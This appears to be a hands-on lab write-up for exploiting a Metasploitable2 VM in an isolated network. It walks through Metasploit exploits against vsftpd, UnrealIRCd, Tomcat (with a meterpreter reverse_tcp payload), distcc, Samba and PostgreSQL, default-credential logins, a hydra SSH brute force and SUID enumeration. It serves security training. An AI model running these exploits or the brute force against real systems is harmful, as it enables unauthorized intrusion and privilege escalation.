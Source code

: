 🧪 Day 1 – Metasploitable2 Exploitation Lab
🎯 Target Environment

Victim VM: Metasploitable2 (192.168.56.102)

Attacker VM: Kali Linux (192.168.56.101)

Network: Host-only (isolated lab, no internet)

📌 Day 1 Plan

Recon → Enumeration → Exploitation → Post-Exploitation → Cleanup

Services in scope today:

vsftpd (21) – FTP backdoor

UnrealIRCd (6667) – IRC backdoor

Tomcat (8080/8180) – Weak creds → WAR upload

distcc (3632) – Remote command execution

SSH (22) – Weak/default credentials

Telnet (23) – Plaintext login

Samba/SMB (139,445) – Share enumeration + RCE

VNC (5900) – Weak password

PostgreSQL (5432) – Weak DB creds

🔎 Recon & Enumeration

Example general scan (Kali):

sudo nmap -sS -sV -O -Pn 192.168.56.102 -oA scans/full


-sS: SYN scan

-sV: Version detection

-O: OS detection

-Pn: No ping (treat host as alive)

-oA scans/full: Save in all formats

⚡ Exploitation Walkthroughs
1. FTP – vsftpd 2.3.4

Vuln: Backdoored version, username :) triggers shell on port 6200.

sudo msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
exploit


Post-exploit:

whoami
id
pwd
ls -la

2. IRC – UnrealIRCd 3.2.8.1

Vuln: Supply-chain backdoor, remote RCE without authentication.

sudo msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.102
set RPORT 6667
exploit

3. Tomcat – 8080/8180

Vuln: Default creds (tomcat:tomcat) → WAR file deploy.

sudo msfconsole
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS 192.168.56.102
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
exploit

4. distcc – 3632

Vuln: Unauthenticated remote command execution.

sudo nmap -p3632 --script distcc-exec 192.168.56.102


or in Metasploit:

use exploit/unix/misc/distcc_exec
set RHOSTS 192.168.56.102
set RPORT 3632
exploit

5. SSH – 22

Vuln: Weak credentials.

ssh msfadmin@192.168.56.102
# password: msfadmin


Optional brute force:

hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102

6. Telnet – 23

Vuln: Plaintext credentials.

telnet 192.168.56.102 23
# login: msfadmin / msfadmin

7. Samba – 139/445

Vuln: RCE (CVE-2007-2447), share misconfigurations.

enum4linux -a 192.168.56.102 > scans/enum4linux.txt
smbclient -L //192.168.56.102/ -N


Exploit in Metasploit:

use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.102
exploit

8. VNC – 5900

Vuln: Weak/no password.

vncviewer 192.168.56.102:5900
# try password: password

9. PostgreSQL – 5432

Vuln: Weak DB creds.

psql -h 192.168.56.102 -U postgres
# try password: postgres


Metasploit module:

use exploit/multi/postgres/postgres_payload
set RHOSTS 192.168.56.102
exploit

🔍 Post-Exploitation Enumeration

Once a shell is gained, run:

whoami      # current user
id          # UID/GID info
pwd         # working directory
ls -la      # detailed directory listing
sudo -l     # check sudo permissions
find / -perm -4000 -type f 2>/dev/null   # SUID binaries


Purpose: identify privilege escalation opportunities.

📝 Knowledge Check (Q&A)

Q: Why is Telnet insecure?
A: Sends credentials in plaintext, easy to sniff.

Q: What’s unique about UnrealIRCd’s backdoor?
A: It was a supply-chain compromise; attackers trojaned the official tarball.

Q: How does Tomcat exploitation usually work?
A: Weak/default creds → access Manager App → upload malicious WAR file.

Q: What are SUID binaries and why check them?
A: Executables with the set-user-ID bit set; if misconfigured, they allow privilege escalation.

🧹 Cleanup

Close sessions (sessions -k in Metasploit).

Revert VM snapshot (e.g., before-telnet).

Save all notes/scans to ~/labs/metasploitable/notes/.

✅ End of Day 1:

Understood service-specific vulns in Metasploitable2.

Practiced exploitation via Metasploit & manual tools.

Learned basic post-exploitation enumeration.

Prepared Q&A for explaining vulnerabilities.
